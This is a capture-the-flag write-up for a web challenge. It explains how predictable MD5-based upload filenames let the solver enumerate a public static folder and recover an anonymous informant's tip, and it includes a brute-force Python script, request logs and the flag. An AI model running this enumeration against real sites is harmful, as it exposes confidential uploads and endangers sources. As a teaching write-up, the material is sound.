 *An anonymous informant identity was compromised today. For now, the only communication between us and the informant has been through via our tip hotline. Could you figure out how the identity of the source may have been exposed?*

In this CTF challenge, from the web category, we are provided with a website at: https://bequick-news.chall.uiactf.no

The homepage tells us this website is a tip-submitting website where users can upload news story ideas or tips. Clicking the "Submit Tip" button brings us to the /upload directory.

We can view the source-code for this directory and analyze the upload functionality.

```
document.getElementById('uploadButton').addEventListener('click', function() {
    const fileInput = document.getElementById('fileInput');
    const originalFile = fileInput.files[0];

    if (!originalFile) {
        alert('Please select a file to upload.');
        return;
    }

    // Get cookie value
    const userCookie = getCookie('user');
    if (!userCookie) {
        alert('User cookie not found.');
        return;
    }

    // Get current timestamp in minutes
    const timestamp = Math.floor(Date.now() / 60000);

    // Generate filename
    const rawString = userCookie + timestamp;
    const secure = CryptoJS.MD5(rawString).toString();
    const newFileName = secure + '.txt';

    // Create FormData and append the file
    const formData = new FormData();
    formData.append('file', originalFile, newFileName);

    // Upload file
    // Replace 'your-server-endpoint' with your actual upload handling endpoint
    fetch('upload-tips', {
        method: 'POST',
        body: formData
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error(error));
});

// Function to get cookie by name
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}
```

It seems like the script gets our username from the cookie, aswell as the current timestamp in minutes, then concatenates the strings before performing a md5 hash on it. When the file is uploaded, the filename is then replaced with ```<hash>.txt```

Therefore it seems like the goal of the challenge is to find the correct file that the anonymous informant uploaded.

If we try to upload a file, we are faced with the following error / response:

```
For now, we have limited access to this functionality to a few organizations. Only the shared user 'tipuser' is allowed to upload for now, to stop the recent waves of fake tips. Want access? Contact us.
```

From this, we find out that only the user "tipuser" is allowed to upload files for now, but simply changing the cookie value did not allow us to upload anything. It seems like the functionality is disabled for this challenge. I also found the "Contact us" part interesting. 

I therefore tried pathing to /contact, but this did not yield any results. I then tried pathing to /about, which existed. We were then faced with a standard, placeholder about page. It said:

```This is an About page for the Intro to Flask article. Don't I look good? Oh stop, you're making me blush.```

When googling this peculiar line, i found this tutorial for the flask framework: 
```https://code.tutsplus.com/an-introduction-to-pythons-flask-framework--net-28822t```

This tutorial showed the file structure. If they used this flask tutorial, the website's file-structure should be similair

```
├── app
│   ├── static
│   │   ├── css
│   │   ├── img
│   │   └── js
│   ├── templates
│   ├── routes.py
│   └── README.md
```

I tried pathing to /static, and it existed. Inside of static there were two folders, *css* and *tmp_upload*

This seemed like the destination for all the uploaded files, considering folders like "uploads", "files" and "tips" don't exist.

Given the fact we have the username *tipuser* and the destination folder */static/tmp_upload*, our team began bruteforcing different timestamps. With no luck, my teammate instead began bruteforcing the current timestamp (in minutes). The thought process is that the filename might update one per minute, which makes sense considering the challenge name "**BeQuick**"

With the following solve script, we were eventually given the flag:

```
import hashlib
import time
import requests
import math

username = "tipuser"
url = "https://bequick-news.chall.uiactf.no/static/tmp_upload/"

# Calculate current minute
timestamp = math.floor(time.time() / 60)

counter = 0
while 1:
    hash_name = hashlib.md5(username.encode() + str(timestamp).encode()).hexdigest()
    filename = hash_name + ".txt"

    request_url = url + filename
    r = requests.get(request_url) 
    print(timestamp, filename, username.encode() + str(timestamp).encode(), r.status_code, counter, request_url) 
    counter += 1
    if r.status_code != 404:
        print(r.text)
        break
```
*Note, this isn't the actual script used in the challenge. This is a recreation by me, but it is functionally the same.*

```
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 404 22 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 404 23 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 404 24 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 200 25 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
I am reaching out to disclose information regarding my former employer, a leading player in Norway's salmon industry, involved in unethical tax evasion practices. As a recent member of their finance department, I witnessed firsthand the implementation of dubious accounting methods designed to significantly minimize tax liabilities.

My opposition to these practices ultimately led to my dismissal. I believe this matter deserves public attention due to its potential impact on tax fairness and the integrity of the industry. I am willing to provide further details and evidence to support an investigation into these allegations.

Please contact me if you are interested in pursuing this story. you can contact me on my private email: awilliams@proton.me
 
UIACTF{pr0tect_your_sources}

```


